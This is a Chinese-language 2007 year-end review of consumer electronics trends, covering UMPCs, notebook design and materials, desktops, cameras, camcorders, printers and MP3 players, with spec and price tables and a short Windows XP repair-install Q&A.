从未来UMPC的发展趋势来看，操控性的改进将是大势所趋。能够内置键盘将是很值得期待的，毕竟这也是传统PDA最大的薄弱环节，如果UMPC能够在这一环节改进，那么实用性无疑将大幅度提升。目前市场上的UMPC产品大多没有键盘，只能使用手写笔或者屏幕虚拟键盘进行输入，麻烦不说而且手写的识别率也是一个让人头痛的问题，尤其是中文、英文、数字混合输入的时候（图4）。



此外，Intel McCaslin平台将会是未来UMPC的主流趋势，此时不仅CPU的功耗性能比更加出色，而且在整体续航时间以及便携性方面都会比现有的UMPC表现得好。近期，富士通的新概念UMPC已经上市，只是其相对较高的价格预示未来普及还有很长一段路要走。

#### 四、工艺美学设计：个性化大战愈演愈烈

随着笔记本市场的发展，消费者在购买笔记本电脑的时候已经不再单单地考虑性价比及性能了，时尚化和个性化已经成为必不可少的元素。以往千篇一律单调的灰色、黑色、白色外观已经很难满足消费者的不断变化的口味和挑剔的眼光。特别对那些女性消费者而言，笔记本的外观不仅代表了个人的审美观念，更加诠释了自我的个性。

##### 1. 彩壳本本映入眼帘

在宽屏和镜面笔记本电脑得到市场的认可之后，彩壳或许将成为时尚和个性化的新的代名词，也是消费类笔记本的发展趋势之一。对于经销商来说，让直接面对消费者的机身外壳自己来说话，使笔记本摆脱呆板单调的工具形象，无疑能赢得更多时尚消费人群的眼球。

SONY VAIO FJ 系列的目标人群是学生和年轻的商务人士，他们比较喜欢纤细轻巧的产品，并且有AV娱乐的需要，而可更换的彩壳更是满足了年轻人喜欢“炫”的性格。即便是在军用笔记本领域颇有建树的松下也在今年“轻松”了一回，此番推出拥有11种颜色的笔记本Lets note LIGHT CF-W4/T4，非常适合美眉使用。而作为去年彩壳笔记本概念的创始者，东芝M50也在今年大幅度降价，直接促成了彩壳概念的普及。此外，富士通P7120B彩壳本本也颇为吸引眼球，本来就是工艺美学设计典范的富士通笔记本在彩壳的“帮助”下变得更加绚丽夺目。

##### 2. 材质革命

目前笔记本电脑外壳的材料不外乎工程塑料、PC-GF20、镁合金和钛合金。PC-GF20能做出类似金属的质感，一般人难以区分，这在今年不少5000元左右的低价位产品中得到比较广泛的应用。镁合金则较贵，优点是比塑料坚固耐磨，质量轻又易于散热，手感也好，多在超轻薄或尺寸较小的本子上采用。即便是神舟这样主攻低端市场的品牌，其优雅Q100P等多款产品顶盖及机身皆采用铝镁合金材料，以不俗的工艺设计让人耳目一新。

钛合金则是最昂贵的，与镁合金相比，除了掺入金属本身的不同外，还渗入碳纤维材料，使整体硬度得到进一步加强，所以素有“黑金刚”之称。除了大名鼎鼎的ThinkPad之外，富士通、NEC、东芝等品牌都在万元级产品中拥有采用钛合金的产品。当然，也有部分产品采用多种合金材料工艺结合，譬如联想天逸系列。耐划、耐脏、易清洁，用户轻轻松松就能打理好自己心爱的本本。总之，材质革命带给用户的不仅仅是视觉享受，耐用以及轻便同样是不可忽视的优势。

| 品牌型号 | CPU | 内存 | 硬盘 | 光驱 | 显卡 | LCD | 重量 | 参考价格 |
|---|---|---|---|---|---|---|---|---|
| 戴尔Inspiron 1420(Q511002N) | 酷睿2 T5250 | 1GB | 120GB | DVD刻录机 | GeForce GO 8400M | 14.1宽屏 | 2.45kg | 6999(元) |
| 戴尔Vostro 1400(Q521084) | 酷睿2 T5470 | 1GB | 120GB | DVD刻录机 | GM965集成 | 14.1宽屏 | 2.45kg | 4999(元) |
| 联想ThinkPad R60E 0658AE5 | 赛扬M 520 | 512MB | 80GB | COMBO | GM965集成 | 15.4宽屏 | 2.88kg | 4699(元) |
| 联想ThinkPad R61 7755A14 | 酷睿2 T7100 | 512MB | 80GB | COMBO | Quadro NVS 140M | 14.1宽屏 | 2.45kg | 9599(元) |
| 联想天逸F40A-PT | 奔腾双核 T2080 | 1GB | 120GB | DVD刻录机 | GeForce Go 7300 | 14.1宽屏 | 2.42kg | 6599(元) |
| 联想天逸F50A-UT | 酷睿2 T5300 | 1GB | 120GB | DVD刻录机 | GeForce Go 7400 | 15.4宽屏 | 2.82kg | 7299(元) |
| HP Compaq Presario V3240AU(RZ882PA) | 双核炫龙TL-52 | 512MB | 80GB | COMBO | GeForce Go6150集成 | 14.1宽屏 | 2.42kg | 5499(元) |
| HP Pavilion dv2621TX(GX893PA) | 奔腾双核 T2330 | 1GB | 120GB | DVD刻录机 | GeForce GO 8400M | 14.1宽屏 | 2.54kg | 7499(元) |
| 神舟 天运Q213S | 奔腾双核 T2130 | 1GB | 100GB | COMBO | GMA950集成 | 13.3宽屏 | 2.19kg | 3999(元) |
| 神舟 承运L730T | 酷睿2 T7250 | 2GB | 160GB | DVD刻录机 | GeForce GO 8600M | 15.4宽屏 | 2.88kg | 7999(元) |
| 清华同方 锋锐K410C-02 | 奔腾双核 T2080 | 1GB | 120GB | COMBO | S3集成 | 14.1宽屏 | 2.35kg | 4999(元) |
| 清华同方 超锐V400-17 | 闪龙3500+ | 1GB | 80GB | COMBO | GeForce Go6150集成 | 14.1宽屏 | 2.65kg | 3999(元) |
| 方正 S650N(VUS650N-500) | 奔腾双核 T2080 | 1GB | 120GB | COMBO | GeForce Go 7300 | 14.1宽屏 | 2.33kg | 5899(元) |
| 方正 R511V(VUR511V-500) | 赛扬M 440 | 256MB | 80GB | COMBO | S3集成 | 15.4宽屏 | 2.85kg | 3799(元) |
| 七喜 S4103 | 奔腾双核 T2080 | 512MB | 80GB | COMBO | GMA950集成 | 14.1宽屏 | 2.35kg | 3999(元) |
| 七喜 TW528D | 酷睿2 T7300 | 1GB | 160GB | COMBO | GeForce GO 8400M | 15.4宽屏 | 2.60kg | 9999(元) |
| 华硕 A8H56Jr-SL | 酷睿2 T5600 | 1GB | 120GB | DVD刻录机 | Radeon X2300 | 14.1宽屏 | 2.42kg | 7999(元) |
| 华硕 A8H71Sc-SL | 酷睿2 T7100 | 1GB | 120GB | DVD刻录机 | GeForce GO 8600M | 14.1宽屏 | 2.39kg | 8999(元) |
| Acer Aspire 4710G-4A0508 | 奔腾双核 T2450 | 512MB | 80GB | COMBO | Radeon X2300 | 14.1宽屏 | 2.68kg | 5999(元) |
| Acer Aspire 5520G-5A0512 | 双核炫龙TL-53 | 512MB | 120GB | DVD刻录机 | GeForce GO 8400M | 15.4宽屏 | 2.75kg | 5749(元) |
| 明基 Joybook S31-C02 | 酷睿2 T5500 | 1GB | 100GB | DVD刻录机 | GMA950集成 | 13.3宽屏 | 2.15kg | 7999(元) |
| 明基 Joybook S32W-HC01 | 酷睿2 T7100 | 512MB | 120GB | COMBO | GM965集成 | 13.3宽屏 | 2.15kg | 8899(元) |
| 富士通 Lifebook S6311Y | 酷睿2 T5500 | 512MB | 80GB | DVD刻录机 | GMA950集成 | 13.3宽屏 | 1.90kg | 9899(元) |
| 富士通 LifeBook S6410A | 酷睿2 T7100 | 1GB | 120GB | DVD刻录机 | GM965集成 | 13.3宽屏 | 1.90kg | 12899(元) |
| 东芝 Satellite M200 | 酷睿2 T7100 | 1GB | 120GB | DVD刻录机 | GM965集成 | 14.1宽屏 | 2.38kg | 8399(元) |
| 东芝 Satellite M202 | 奔腾双核 T2080 | 512MB | 80GB | COMBO | GMA950集成 | 14.1宽屏 | 2.55kg | 5999(元) |
| 三星 Q70-B004 | 酷睿2 T5450 | 512MB | 80GB | COMBO | GM965集成 | 13.3宽屏 | 2.03kg | 7399(元) |
| 三星 R25-B004 | 奔腾双核 T2450 | 1GB | 160GB | DVD刻录机 | GeForce Go 7300 | 14.1宽屏 | 2.40kg | 6799(元) |
| 苹果 MacBook (MA699CH/A) | 酷睿2 T5600 | 512MB | 80GB | COMBO | GMA950集成 | 13.3宽屏 | 2.36kg | 8999(元) |
| 苹果 MacBook Pro(MA896CH/A) | 酷睿2 T7700 | 2GB | 160GB | DVD刻录机 | GeForce GO 8600M | 15.4宽屏 | 2.45kg | 21999(元) |

### 傻博士问答：Windows XP修复安装

**故障现象**：一直运行稳定的Windows XP操作系统，前不久使用时出现Windows保护文件的对话框“你的有些系统文件已经被替换为不同与以前安装时的版本，请插入Windows XP的光盘，否则将不利于你的系统安全”。当时用户没有理睬，选择了“取消”。后来那台机器能够正常启动但是，每次开机提示文件损坏，现在干脆连安全模式也无法进入。

**故障分析**：这台机器中的数据很重要，因此不能鲁莽地采用格式化硬盘来解决。从描述的故障情况来看，Windows XP已经被严重损坏，需要通过修复安装进行补救。如果操作得当的话，这样并不会破坏数据，也是比较保险的挽救方法。建议在修复操作系统前，备份硬盘上重要的数据到移动存储介质，以避免由于不可预见的误操作带来的数据丢失。

**解决方法**：在光驱中放入Windows XP安装光盘，并在BIOS中设置使系统由光驱引导启动计算机，随后按R键则系统进入修复程序。在这一特殊的安装模式中，系统会自动从光盘中提取损坏的文件，使用后一般能够保证Windows XP正常运行。最后要提醒用户的是，以后尽量将重要数据保存在与操作系统不同的分区中，这样一旦操作系统损坏也不会牵涉到这些重要数据。

### 台式电脑

#### 1. 全面进入双核时代，为四核时代准备着

2007年的家用电脑市场已经全面进入双核处理器时代，各大厂商主打系列机型均已经采用了双核处理器。联想的普及型家悦系列、娱乐型锋行系列及影音型天骄系列，惠普畅游人g系列、u系列与m系列也均采用了双核处理器，DELL、同方、方正等几乎所有品牌的主流机型均采用了双核处理器。而在双核机型如火如荼高奏凯歌时候，四核机型也悄然登场，联想、惠普、DELL、方正等众多品牌大厂，分别推出了四核处理器机型。联想锋行King、惠普畅游人m9000系列均是其中代表。

#### 2. 大尺寸宽屏LCD成标配

2007年的家用电脑宽屏LCD几乎成了标准配置，19英寸宽屏LCD已经成为大部分家用电脑机型的最低配置，此外...



22英寸宽屏LCD也成为中、高价位机型标配。目前5000元的机型完全配置22英寸宽屏LCD。甚至有人说：“大屏LCD在一定程度上促进了家用电脑市场的繁荣。”此外，24英寸宽屏LCD又成为了眼下少数主流机型的标准配置，这无疑为大尺寸家用电脑指明了方向。

#### 3. 造型更加时尚感，显卡进入DX10时代

对于家用电脑与DIY计算机的最大优势就是外形设计，而进入2007年，随着整机市场竞争的加剧，各大厂商已经非常注重机型的外形设计。联想天骄i系列、方正卓越S100系列、清华同方CoCo系列、宏基巧玲珑L系列、明基 Joyhub江南-D、戴尔Inspiron 530ST在外形设计上均有各自特点。2007年DX10系列显卡成为了游戏品牌机的代名词，联想锋行X系列、惠普畅游人m系列均采用DX10系列显卡。



| 产品型号 | 处理器 | 主板规格 | 内存(MB) | 硬盘 | 光驱 | 显示器 | 显示卡 | 机箱类型 |
|---|---|---|---|---|---|---|---|---|
| 联想扬天 E4600V | Pentium E2140 | Intel 945GC | 512 | 80GB | DVD-ROM | 15英寸液晶 | Geforce 7300LE | 可立可卧 |
| 联想家悦 U5060A | Athlon 64 X2 4400+ | K8M890 | 1024 | 160GB | DVD-ROM | 22英寸宽屏 | ATI X1550 | 立式机箱 |
| 联想锋行 X7050 | Core 2 Duo E6320 | Intel 946GZ+ICH7 | 2048 | 250GB | DVD刻录机 | 22英寸 | ATI Radeon HD 2600Pro | 立式机箱 |
| 联想天骄 S2210i | Pentium E2160 | 800MHz | 1024 | 250GB | DVD刻录机 | 19英寸 | Geforce 7300LE | 立式机箱 |
| 联想家悦 U5021A | Athlon 64 X2 3800+ | 1000MHz | 512 | 160GB | DVD-ROM | 19英寸 | GeForce 7100GS | 立式机箱 |
| 同方火影 N3000 | Athlon 64 X2 4000+ | 1000MHz | 1024 | 160GB | DVD-ROM | 19英寸 | nVidia 8500GT | 立式机箱 |
| 同方真爱 T5160 | Celeron 420 | 800MHz | 512 | 80GB | DVD-ROM | 17英寸 | Geforce 7300SE | 立式机箱 |
| 同方超扬 A550T | Pentium D 915 | 800MHz | 512 | 160GB | DVD-ROM | 17英寸 | ATI X1300 | 新超扬多功能机箱 |
| 方正商祺 N680 | Pentium 4 640 | Intel 945GC | 512 | 160GB | DVD-ROM | 17英寸 | ATi Radeon X300SE | 立式机箱 |
| 方正卓越S100(3254) | Core 2 Duo E4300 | 800MHz | 1024 | 160GB | DVD刻录机 | 22英寸 | GeForce 7100GS | 立式机箱 |
| 方正锐翔 S8665 | Core 2 Duo E6300 | VIA P4M890+VT8237R | 1024 | 160GB | DVD-ROM | 19英寸 | GeForce 7100GS | 立式机箱 |
| Acer Aspire G3800 | Core 2 Duo E4300 | 800MHz | 512 | 160GB | DVD-ROM | 17英寸 | ATI X1550 | 立式机箱 |
| Acer Aspire L100 | Athlon 64 X2 4000+ | NVIDIA GeForce 6150 | 1024 | 250GB | DVD-RW | 17英寸 | ATI X1300 | 立式机箱 |
| HP Pavilion m9085cn | Core 2 Quad Q6600 | Intel G33+ICH9R | 2048 | 500GB x2 | DVD-ROM+DVD刻录机 | 24英寸 | nVidia GeForce8500GT 3D PCI-Express 显卡 | |
| HP Pavilion g3119cx | Sempron 3800+ | nVidia nForce 430 | 1024 | 160GB | DVD-ROM | 19英寸 | NVIDIA GeForce 7300 LE PCI-Express | 立式机箱 |
| HP Pavilion u6215cn | Pentium E2140 | Intel 945GC | 1024 | 250GB | DVD-ROM | 22英寸 | NVIDIA GeForce 7500LE PCI-Express | M-ATX立式 |
| 海尔 速启锋3026 | Pentium D 805 | 533MHz | 512 | 80GB | DVD-ROM | 17英寸 | 主板集成 | M-ATX立式 |
| 海尔 家家乐D3107 | Pentium 4 524 | 533MHz | 256 | 80GB | DVD-ROM | 17英寸 | 主板集成 | M-ATX立式 |
| 海尔·轰天雷H6-B020 | Core 2 Duo E4300 | 800MHz | 1024 | 160GB | DVD-ROM | 19英寸 | ATI X1550 PCI-E | M-ATX立式 |
| 长城 嘉翔G22140E | Pentium E2140 | Intel 945GC | 512 | 160GB | DVD刻录机 | 19英寸 | GeForce 7100GS | ATX机箱 |
| 长城 世恒K215P | Pentium D 915 | 800MHz | 512 | 80GB | DVD-ROM | 17英寸 | 集成高性能显卡 | ATX机箱 |
| 紫光 文信 2600 | Pentium D 925 | 800MHz | 512 | 160GB | DVD-ROM | 17英寸 | 集成显卡 | M-ATX立式机箱 |

### 2007年热点技术与产品

#### 数码相机

### 1.家用数码相机

2007年的数码相机市场竞争可谓是白热化的，索尼、佳能、奥林巴斯、尼康、三星、柯达等厂商群雄逐鹿，不仅在年内数码相机的新品上市不断，而且年末不少重量级的新品都成为压轴之作闪亮登场，给人们很多惊喜。2007年的数码相机价格战更是火爆，不少二三线厂商的产品已经跌入1000元内，而索尼等一些厂商的一些家用机型价格有的也在1000元出头。可以说2007年数码影像风暴更加猛烈地践踏着传统影像市场。

技术方面，记得几年前，拥有500-600万像素的家用数码相机已经算是高端产品了，而进入2007年末，1000-1200万像素的家用数码相机已经逐步成为主流。一批曾经的高端技术，如人脸识别、高感光技术等，随着技术的成熟，已经更加普及。

人脸识别技术适合于摄影技术不很熟练的普通用户，使其在不需专业器材的情况下，拍摄出更优秀、更美丽的人物摄影。其原理是使用特定的算法来实现快速的对焦到一个或是多个人脸，从而达到高效、快速、准确的拍摄目的。如尼康S500就具备人脸识别技术。



| 产品型号 | 有效像素(万) | 最高分辨率 | CCD(英寸) | 等效焦距(mm) | 最大光圈 | 快门范围(秒) | 手动曝光 | LCD(英寸) | LCD像素(万) | 存储卡 | 重量(克) |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 索尼DSC-T2 | 808 | 3264×2448 | 1/2.5 | 38-114 | F3.5-4.3 | 1/4-1/1000 | 不支持 | 2.7 | 23 | 记忆棒 | 129 |
| 索尼DSC-W200 | 1210 | 4000×3000 | 1/1.7 | 35-105 | F2.8-5.5 | 1/4-1/2000 | 支持 | 2.5 | 11.5 | 记忆棒 | 142 |
| 索尼DSC-H3 | 808 | 3264×2448 | 1/2.5 | 38-380 | F3.5-4.4 | 1/4-1/2000 | 支持 | 2.5 | 11.5 | 记忆棒 | 407 |
| 索尼DSC-T100 | 808 | 3264×2448 | 1/2.5 | 35-175 | F3.5-4.4 | 1/4-1/1000 | 不支持 | 3.0 | 23 | 记忆棒 | 141 |
| 佳能Digital IXUS 950 IS | 800 | 3264×2448 | 1/2.5 | 35-140 | F2.8-F5.5 | 15-1/1600 | 不支持 | 2.5 | 23 | SD、SDHC、MMC卡 | 165 |
| 佳能PowerShot A720 IS | 800 | 3264×2448 | 1/2.5 | 35-210 | F2.8-F4.8 | 15-1/2000 | 支持 | 2.5 | 11.5 | 16MB SD卡 | 200 |
| 佳能PowerShot G9 | 1210 | 4000×3000 | 1/1.7 | 35-210 | F2.8-F4.8 | 15-1/2500 | 支持 | 3.0 | 23 | SD、SDHC、MMC、MMC Plus、HC MMC Plus | 320 |
| 佳能PowerShot A650 IS | 1210 | 4000×3000 | 1/1.7 | 35-210 | F2.8-F4.8 | 15-1/2000 | 支持 | 2.5 | 17.3 | SD/SDHC、MMC、MMC Plus、HC MMC Plus | 300 |
| 佳能PowerShot SX100 IS | 800 | 3264×2448 | 1/2.5 | 36-360 | F2.8-F4.3 | 15-1/2500 | 支持 | 2.5 | 17.2 | SD/SDHC、MMC、MMC Plus、HC MMC Plus | 265 |
| 尼康coolpix P5100 | 1210 | 4000×3000 | 1/1.72 | 35-123 | F2.7-F5.3 | 8-1/2000 | 支持 | 2.5 | 23 | SD卡 | 200 |
| 尼康coolpix S700 | 1210 | 4000×3000 | 1/1.72 | 37-111 | F2.8-F5.4 | 4-1/1500 | 不支持 | 2.7 | 23 | SD、SDHC | 130 |
| 尼康coolpix L15 | 800 | 3264×2448 | 1/2.5 | 35-105 | F2.8-F4.7 | 1-1/1500 | 不支持 | 2.8 | 23 | SD卡 | 125 |
| 三星S1030 | 1010 | 3648×2736 | 1/1.8 | 35-105 | F2.8-F7.1(广角)、F5.1-F13.1(长焦) | 1-1/1500 | 不支持 | 2.7 | 23 | MMC/SD 卡 | 169 |
| 三星蓝调 NV10 | 1010 | 3648×2736 | 1/1.8 | 35-105 | F2.8-F5.1 | 1-1/1500 | 支持 | 2.5 | 23 | SD/MMC卡 | 148.7 |
| 三星蓝调 NV11 | 1010 | 3648×2736 | 1/1.8 | 38-190 | F2.8-F4.4 | 1-1/2000 | 支持 | 2.7 | 23 | SD、MMC卡、SDHC | 195.3 |
| 三星蓝调 L77 | 710 | 3072×2304 | 1/2.5 | 38-266 | F3.5-F5.4 | 1-1/1250 | 不支持 | 2.5 | 23 | SD、MMC卡、SDHC | 135 |
| 柯达C763 | 710 | 3072×2304 | 1/2.5 | 35-105 | F/2.8-5.0 | 4 - 1/1400 | 不支持 | 2.5 | 15.4 | SD卡、MMC卡 | 130 |
| 柯达M853 | 820 | 3296×2472 | 1/2.5 | 37-111 | F2.8-F5.2 | 4 - 1/1400 | 不支持 | 2.5 | 15.4 | SD/MMC卡/SDHC卡 | 115 |
| 柯达V803 | 800 | 3264×2448 | 1/1.8 | 36-108 | F2.8 - F4.9 | 8 - 1/1448 | 不支持 | 2.5 | 15 | SD/MMC卡 | 141.5 |
| 柯达Z1275 | 1208 | 4000×3000 | 1/1.72 | 35-175 | F2.8-F5.1 | 8 - 1/2000 | 支持 | 2.5 | 11.5 | SD/SDHC/MMC卡 | 161 |
| 卡西欧EX-V8 | 810 | 3264×2448 | 1/2.5 | 38-226 | | 1/2-1/800 | 不支持 | 2.5 | 23 | SD卡、MMC卡、SDHC、MMCPlus卡 | 149 |
| 卡西欧 EX-Z1200 | 1210 | 4000×3000 | 1/1.7 | 37-111 | F2.8/F8.0 自动切换 | 1/4-1/2000 | 支持 | 2.8 | 23 | SD卡、MMC卡、SDHC、MMCPlus卡 | 152 |
| 卡西欧 EX-S880 | 810 | 3264×2448 | 1/2.5 | 38-114 | F2.7/F8.0、自动切换 | 1/2-1/2000 | 不支持 | 2.8 | 23 | SD卡、MMC卡、MMCPLUS卡、SDHC卡 | 128 |
| 奥林巴斯 FE-280 | 800 | 3264×2448 | 1/2.35 | 36-108 | F3.1-F5.9 | 1/2-1/2000 | 不支持 | 2.5 | 23 | xD卡 | 108 |
| 奥林巴斯SP-550 UltraZoom | 710 | 3072×2302 | 1/2.5 | 28-504 | F2.8-F8.0 | 15-1/2000 | 支持 | 2.5 | 23 | xD卡 | 365 |
| 奥林巴斯 μ-820 | 800 | 3264×2448 | 1/2.35 | 36-180 | F3.3-F5.0 | 1/2-1/2000 | 不支持 | 2.7 | 11.5 | xD卡 | 125 |
| 松下DMC-LX2GK | 1020 | 4224×2376 | 1/1.65 | 28-112 | F2.8-8.0(广角端) F4.9-F8.0(长焦端) | 1/4-1/2000 | 支持 | 2.8 | 20.7 | SD卡、MMC卡、SDHC卡 | 187 |
| 松下 DMC-FZ50GK | 1010 | 3648×2736 | 1/1.8 | 35-420 | F2.8-F3.7 | 60秒-1/1200 | 支持 | 2.0 | 20.7 | SD卡、MMC卡、SDHC卡 | 668 |
| 松下 DMC-FX100GK | 1220 | 4000×3000 | 1/1.72 | 28-100 | F2.8-F9.0(广角)；F5.6-F18.0(望远) | 8-1/2000 | 不支持 | 2.5 | 20.7 | SD卡、MMC卡、SDHC卡 | 148 |
| 拍得丽 DC-7370 | 700 | 3072×2304 | 1/2.5 | 35-105 | F2.8-F4.8 | 1/2-1/2000 | 不支持 | 2.5 | 11.5 | SD卡 | 120 |

高感光技术是为了在光线较暗的室内等地，能够拍摄出理想的照片，但是提高了感光度之后，很容易造成噪点的出现，破坏了照片的成像质量，所以在购买相机的时候这项技术是一定要多花心思的。记得防抖技术刚推出的时候，分为光学防抖和CCD防抖两派，光学防抖一度占据绝对优势，但是随着CCD防抖技术的进步，其与光学防抖的性能差距已经逐步减小。

此外，与前几年只注重性能，而外形千篇一律的设计理念相比，2007年不少厂商推出了更具个性色彩的相机。

##### 2. 单反相机

2007年单反相机技术也有了一定的发展，全画幅技术的进一步应用使其迈上了一个台阶。顾名思义，全画幅感光元件是指由于感光元件的面积大，更容易提升像素、更容易控制噪点、综合成像效果是所有数码相机中最好的。而CCD防尘技术是为了防止每次更换镜头时，可能有灰尘不慎飘入CCD上，下次所拍照片可能就会出现颗粒状杂色于照片上。

#### 数码摄像机

2007年的DV技术发展呈现百花齐放的概念，首先，高清DV按照预期有了长足的发展，但是由于标准不统一等问题，使不同厂商的高清DV拍摄出的影像不能保证在所有高清电视全能播放。



另一方面，2007年随着三星、索尼、松下等厂商的大力推广才开始普及的新型闪存DV产品，闪存式DV与硬盘式DV的博弈悄然开始。硬盘DV，具有存储容量大、后期编辑容量大等特点；而作为DV市场的新生力量，具有体积小存储传输都很方便等特点，闪存DV让人们看出其无法限量的发展前景。

首先，作为民用拍摄工具，便携性是一个家用DV重要考量的项目。目前硬盘式DV的重量一般在400克以上，而闪存式DV无论从重量到体积要小得多。

其次，闪存DV的开机速度、抗震性、电池续航能力以及容量扩展性方面全已超越硬盘式DV，目前闪存DV启动时间一般在3秒左右。抗震性方面，硬盘DV的存储介质是硬盘，在震动下容易出现坏道，如果硬盘出现坏道，会影响DV使用时间，而闪存DV完全没有这个后顾之忧。在电池续航方面，由于技术特点不同，与硬盘DV相比，闪存DV具有更少的能耗。

再次，价格方面，闪存DV更具优势，目前主流家用硬盘DV价格一般在6000元左右，而闪存DV价格一般在3000-4000元，更有一些厂家，推出2000元左右的闪存DV。

闪存主要特点在于，读写灵活，具有非线性、随机、重复擦写等特点，近年由于技术的不断发展，单张闪存卡的容量已经可以达到8GB，以MPEG4格式进行超长时间拍摄，完全可以满足家庭拍摄的需求。相信随着闪存技术的进一步发展，闪存容量的进一步扩大，闪存DV取代磁带、DVD光盘、硬盘DV，成为DV领域真正的王者，只是时间问题。

| 产品型号 | 摄像机类型 | 有效像素 | 感光器尺寸 | 滤镜口径 (mm) | 取景器 | LCD尺寸 (英寸) | LCD像素 | 记录介质 | 重量(克) |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 佳能HG10 | 高清数码 | 动态约207万 | | | | | | | 505 |
| 佳能 DC220 | DVD数码 | 动态(16：9)约54万 (稳定器关)； | 1/6 | 37 | 0.27英寸彩色LCD，约12万像素 | 2.7 | 12万 | 8cmDVD-R (2.6GB )、MiniSD卡 | 405 |
| 佳能 MVX460 | Mini数码 | 磁带(16:9) 88万(稳定器关)；存储卡 约100万 | 1/5 | 27 | 0.33英寸彩色LCD，约11万像素 | 2.7 | 123000像素 | DV录影带、SD/MMC卡 | 370 |
| SONY HDR-SR5E | 高清数码 | 16：9动态143万像素； | 1/3.0 | 37 | 无 | 2.7 | 211000像素 | 40G 1.8英寸硬盘、记忆棒 | 460 |
| SONY DCR-SR42E | 硬盘数码 | 动态31万(16:9) | 1/6英寸 | 30 | 无 | 2.5 | 123000像素 | 30G 1.8英寸硬盘、Memory Stick Duo | 无电池340 |
| SONY DCR-HC38E | Mini数码 | 动态40万 | 1/6 | 30 | 0.3" 彩色取景器，12.3万像素 | 2.5 | 123000像素 | DV录影带 | 390 |
| 三星 VP-MX10A | 超迷你数码 | 35万 | 1/6 | 30 | 无 | 2.7 | 112k像素 | SD、MMC、SDHC、MMCPlus | 280 |
| 三星 VP-DC575Wi | DVD数码 | 100万 | 1/5 | 30 | 彩色取景器 | 2.7 | 112000像素 | DVD+/-RW、SD/MMC | 无电池360 |
| 三星 VP-D375Wi | Mini数码 | 80万 | 1/6 | 30 | 彩色取景器，12.3万像素 | 2.7 | 112000像素 | DV录影带、SD/MMC卡 | 无电池340 |
| 松下 NV-GS238GK | Mini数码 | 动态40万 | 1/6 | 37 | 0.33英寸TFT彩色LCD，11万像素 | 2.5 | 113000 | DV录影带、SD存储卡 | 410 |
| 松下 SDR-H258GK | 硬盘数码 | 动态63万 | 1/6 | 37 | 无 | 2.7 | 123k像素 | 30GB HDD、SD/SDHC/SD记忆卡 | 460 |
| 松下 VDR-D258GK | DVD数码 | 53万动态 | 1/6 | 37 | 0.3英寸彩色，12万像素 | 2.7 | 123K像素 | 8厘米DVD-RAM、SD卡 | 555 |
| 日立 DZ-HS303SW | 光盘硬盘数码 | 动态214万 | 1/3.0 | 37 | 0.2英寸彩色LCD，20万像素 | 2.7 | 120000像素 | DVD+/-RW、HDD、SD | 485 |
| 日立 DZ-GX3300E | DVD数码 | 动态214万 | 1/3 | 37 | 0.2英寸彩色TFT取景器，20万像素 | 2.7 | 120000像素 | DVD+/-RW、SD | 470 |
| JVC GR-DA30AC | Mini数码 | 68万 | 1/6 | 27 | 无 | 2.4 | 112000像素 | DV录影带 | 385 |
| JVC GZ-MG275AC | 硬盘数码 | 动态123万 | 1/3.9 | 30.5 | 无 | 2.7 | 112000像素 | SD卡、40G 1.8英寸硬盘、SDHC兼容 | 355 |
| JVC GZ-MG130AC | 硬盘数码 | 动态40万 | 1/6 | 30.5 | 无 | 2.7 | 112000像素 | SD卡、30G 1.8英寸硬盘、SDHC兼容 | 320 |
| 东芝 GSC-R30 | 硬盘数码 | 动态125万 | 1/3.6 | 30.5 | 无 | 2.5 | 207000像素 | SD卡、30G 1.8英寸硬盘 | 390 |
| 东芝 GSC-R60 | 硬盘数码 | 动态125万 | 1/3.6 | 30.5 | 无 | 2.5 | 207000像素 | SD卡、60G 1.8英寸硬盘 | 410 |
| 三洋 VPC-HD1A | 超迷你数码 | 510万像素 | 1/2.5 | 无 | 无 | 2.2 | 15000像素 | SD卡、SDHC卡 | 210 |

#### 办公打印设备

2007年打印机市场的配角是激光打印机，彩色激打是2007年激光打印机的主旋律。而相对激打，喷墨打印机扮演的是主角，商务喷打成为了近年一线打印机大厂的主推概念。惠普主打的“高速喷打”技术，以及爱普生“Bi-ink双黑墨盒”打印头技术全是本年的热点。独有Bi-ink双黑墨打印头技术，是在打印过程中两排黑色喷嘴同时工作，使黑白打印速度飞速提升。在相当于激光打印品质下可以达到A4黑白文本每分钟25页，草稿模式下更达到了每分钟37页，给你带来前所未有的快速体验，激光机也望尘莫及。此外，2007年的扫描仪的风光早已不在，诸多一线打印机厂商主推价格便宜、功能全面的喷墨一体机。



#### MP3、MP4移动数码

记得前几年，MP3刚开始普及时，大部门品牌的产品基本外形一致，除了铭牌不同，其他的基本一样。而随着时间的推移，今年MP3、MP4厂商更加注重外形，一批外形独特新颖的MP3、MP4播放器开始吸引人们的眼球，而一些国内小厂商也推出了一些模仿国外知名厂商产品外形的产品，目前，市场上模仿苹果 iPod造型的播放器满街全是。



##### MP3

| 产品型号 | 音乐格式 | 存储容量 | 存储介质 | 屏幕面板 | 录音功能 | FM功能 | 播放时间(小时) | 颜色 | 信噪比(dB) |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| iPod Nano 3 | AAC、MP3、WAV、AIFF、MP3 VBR、Audible、Apple Lossless | 8GB | 闪存 | 2英寸蓝白色LED屏、320*240分辨率 | 无 | 无 | 24 | 银、蓝、绿、灰 | 90 |
| iPod Shuffle 3 | AAC、MP3、WAV、AIFF、MP3 VBR、Audible | 1GB | 闪存 | 无屏幕 | 无 | 无 | 12 | 银、蓝、绿、紫 | 104 |
| iPod Classic | AAC、MP3、WAV、AIFF、MP3 VBR、Audible、Apple LossLess | 160GB | 硬盘 | 2.5英寸LCD彩屏、320*240分辨率 | 无 | 无 | 40 | 银、黑 | 104 |
| Creative Zen Stone | MP3、WMA | 1GB | 闪存 | 无屏幕 | 无 | 无 | 10 | 黑、白、粉、蓝、红、绿 | 90 |
| Creative Zen Neeon 2 | MP3、WMA、WAV(ADPCM编码) | 2GB | 闪存 | 1.5英寸65536色CSTN全彩、128*128 | 有 | 有 | 20 | 黑、银色、蓝色、粉色、橙 | 90 |
| Iriver Mplayer | MPEG 1/2/2.5 Layer 3、WMA、ASF | 1GB | 闪存 | 无屏幕 | 无 | 无 | 8 | 银、白、粉、蓝 | 90 |
| Iriver T60 (2GB) | MP3、WMA、OGG、ASF | 2GB | 闪存 | 1.01英寸65536色CSTN屏、128*64 | 有 | 有 | 19 | 黑、白色、蓝色、黄 | 90 |
